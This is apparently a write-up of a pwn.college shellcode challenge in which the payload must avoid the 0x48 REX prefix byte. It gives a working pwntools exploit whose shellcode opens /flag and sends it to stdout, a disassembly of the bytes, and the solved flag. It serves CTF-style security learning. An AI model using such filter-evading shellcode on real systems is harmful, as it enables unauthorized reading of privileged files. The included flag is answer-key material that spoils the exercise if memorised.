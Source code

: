 In this challenge our shellcode cannot have 0x48 opcode

The 0x48 opcode is usually used when dealing with extended registers or registers that have REX prefixes. 

0x48 is a REX prefix with following bit setting 

REX.W = 1 indicates the instruction uses 64 bit opearand size

The REX prefix, available in 64-bit mode, enables use of the AMD64 register and operand size
extensions. Unlike the legacy instruction modification prefixes, REX is not a single unique value, but
occupies a range (40h to 4Fh)

![](./sc/sc1.png)

(https://www.amd.com/content/dam/amd/en/documents/processor-tech-docs/programmer-references/24594.pdf)

The exploit

```python
from pwn import *

context.arch='amd64'
context.os='linux'

asm_code = """
    xor eax, eax
    mov eax, 2
    lea edi, [rip + path]
    xor esi, esi
    syscall
    xor edi, edi
    mov dil, 1
    xor esi, esi
    mov sil, al
    xor edx, edx
    mov r10, 128
    mov al, 40
    syscall
path:
    .string "/flag"
"""

shellcode=asm(asm_code)

formatted_shellcode = ''.join([f'\\x{byte:02x}' for byte in shellcode])
print(formatted_shellcode)

HOST='pwn.college'
port=22
password='password'
FILE='/challenge/babyshell-level-4'
username='hacker'
conn = ssh(user=username, host=HOST, password=password)

proc = conn.process(FILE)
proc.recvuntil("Reading 0x1000 bytes from stdin.")
proc.sendline(shellcode)
proc.interactive()

conn.close()
```

In the asm code i have only used 32 bit registers to avoid 0x48 opcode


          Address      |                      Bytes                    |          Instructions
    ------------------------------------------------------------------------------------------
    0x000000002588d000 | 31 c0                                         | xor eax, eax
    0x000000002588d002 | b8 02 00 00 00                                | mov eax, 2
    0x000000002588d007 | 8d 3d 1b 00 00 00                             | lea edi, [rip + 0x1b]
    0x000000002588d00d | 31 f6                                         | xor esi, esi
    0x000000002588d00f | 0f 05                                         | syscall 
    0x000000002588d011 | 31 ff                                         | xor edi, edi
    0x000000002588d013 | 40 b7 01                                      | mov dil, 1
    0x000000002588d016 | 31 f6                                         | xor esi, esi
    0x000000002588d018 | 40 88 c6                                      | mov sil, al
    0x000000002588d01b | 31 d2                                         | xor edx, edx
    0x000000002588d01d | 49 c7 c2 80 00 00 00                          | mov r10, 0x80
    0x000000002588d024 | b0 28                                         | mov al, 0x28
    0x000000002588d026 | 0f 05                                         | syscall 

The flag 

    pwn.college{IotyjbjOpOdGT1XYkW6UUnMQpqC.0FMyIDL5kzM1czW}
